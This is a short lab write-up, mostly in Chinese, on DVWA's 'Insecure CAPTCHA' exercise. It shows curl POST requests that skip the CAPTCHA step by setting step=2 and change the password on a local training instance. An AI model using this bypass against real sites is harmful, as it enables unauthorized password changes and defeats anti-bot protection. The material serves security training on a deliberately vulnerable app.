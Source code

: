 # Insecure CAPTCHA

### Objective: Your aim, change the current user's password in an automated manner because of the poor CAPTCHA system.

### 跳過驗證，直接送 POST
先觀察正常流程
```
http://localhost:8086/vulnerabilities/captcha/#
```
Form data:
```
step: "1",
password_new: "222",
password_conf: "111",
Change: "Change"
```

再觀察看看表單送出的內容，有個 `step` key (要記得保持 javascript 關閉的狀態，才能觀察到 POST request，方便接下來修改 request)

```
step=2&password_new=222&password_conf=222&Change=Change
```

簡化版 request
```
curl 'http://dvwa.localtest:8086/vulnerabilities/captcha/#' \
-X POST \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Cookie: PHPSESSID=ov64qqshkod7693old2kdk59e3; security=low' \
--data-raw  'step=2&password_new=222&password_conf=222&Change=Change'
```

完整版 request (這段是利用 Firefox 的 Copy Request as cURL 的功能複製的)
```
curl 'http://dvwa.localtest:8086/vulnerabilities/captcha/#' \
-X POST \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
-H 'Accept-Language: zh-TW,zh;q=0.8,en;q=0.5,en-US;q=0.3' \
-H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://dvwa.localtest:8086/vulnerabilities/captcha/' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://dvwa.localtest:8086' \
-H 'DNT: 1' -H 'Connection: keep-alive' \
-H 'Cookie: PHPSESSID=ov64qqshkod7693old2kdk59e3; security=low' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'Pragma: no-cache' \
-H 'Cache-Control: no-cache' \
--data-raw \
'step=2&password_new=222&password_conf=222&Change=Change'
```

送出 request 後，重新登入驗證密碼有被更改就成功了
